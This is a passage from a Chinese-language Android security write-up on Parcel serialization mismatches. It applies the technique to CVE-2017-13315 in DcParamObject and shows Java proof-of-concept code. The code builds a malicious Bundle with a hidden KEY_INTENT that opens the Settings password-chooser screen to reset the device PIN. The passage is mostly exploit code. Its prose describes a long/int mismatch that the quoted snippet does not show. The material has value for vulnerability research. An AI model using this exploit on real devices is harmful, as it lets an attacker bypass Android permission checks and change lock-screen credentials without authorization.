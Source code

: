 可以看到我们的数据确实是有了,绕过了界面1中的检测,也在界面2中成功读到了数据,我们再来看一下这两次的bundle数据
![](https://github.com/EggUncle/Demo/blob/master/markdownimg/2018-06-15%2022-05-05%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE.png?raw=true)

可以看到在00000090这一行,由于不匹配的读写,导致错位了四位,第二个键值对被当成了键为空,值为long型,内容为940000000d,这就是上面截图输出里面的635655159821的十六进制表示

### 0x04实战 CVE-2017-13315
上次我们提到了launchanywhere这个漏洞,现在我们来利用这次提到的知识点来绕过修复之后的限制.
在CVE-2017-13315这个漏洞中,出现问题的类是DcParamObject,它出现的问题和上面的例子一样,在写时将数据以long形式写入,但是读的时候是int
```
public void writeToParcel(Parcel dest, int flags) {
    dest.writeInt(mSubId);
}
private void readFromParcel(Parcel in) {
    mSubId = in.readInt();
}
```
所以利用的方法,和上面的一样的,只是我们的evilkv,需要构造成指定想要跳转的目标页面,这里以设置pin码为例,和以前的launchanywhere例子一样,重置pin码
```
Bundle evilBundle = new Bundle();
        Parcel bndlData = Parcel.obtain();
        Parcel pcelData = Parcel.obtain();

        // Manipulate the raw data of bundle Parcel
        // Now we replace this right Parcel data to evil Parcel data
        pcelData.writeInt(3); // number of elements in ArrayMap
        /*****************************************/
        // mismatched object
        pcelData.writeString("mismatch");
        pcelData.writeInt(4); // VAL_PACELABLE
        pcelData.writeString("com.android.internal.telephony.DcParamObject"); // name of Class Loader
        pcelData.writeInt(1);//mSubId

        pcelData.writeInt(1);
        pcelData.writeInt(6);
        pcelData.writeInt(13);
        //pcelData.writeInt(0x144); //length of KEY_INTENT:evilIntent
        pcelData.writeInt(-1); // dummy, will hold the length
        int keyIntentStartPos = pcelData.dataPosition();
        // Evil object hide in ByteArray
        pcelData.writeString(AccountManager.KEY_INTENT);
        pcelData.writeInt(4);
        pcelData.writeString("android.content.Intent");// name of Class Loader
        pcelData.writeString(Intent.ACTION_RUN); // Intent Action
        Uri.writeToParcel(pcelData, null); // Uri is null
        pcelData.writeString(null); // mType is null
        pcelData.writeInt(0x10000000); // Flags
        pcelData.writeString(null); // mPackage is null
        pcelData.writeString("com.android.settings");
        pcelData.writeString("com.android.settings.password.ChooseLockPassword");
        pcelData.writeInt(0); //mSourceBounds = null
        pcelData.writeInt(0); // mCategories = null
        pcelData.writeInt(0); // mSelector = null
        pcelData.writeInt(0); // mClipData = null
        pcelData.writeInt(-2); // mContentUserHint
        pcelData.writeBundle(null);

        int keyIntentEndPos = pcelData.dataPosition();
        int lengthOfKeyIntent = keyIntentEndPos - keyIntentStartPos;
        pcelData.setDataPosition(keyIntentStartPos - 4);  // backpatch length of KEY_INTENT
        pcelData.writeInt(lengthOfKeyIntent);
        pcelData.setDataPosition(keyIntentEndPos);
        Log.d(TAG, "Length of KEY_INTENT is " + Integer.toHexString(lengthOfKeyIntent));
```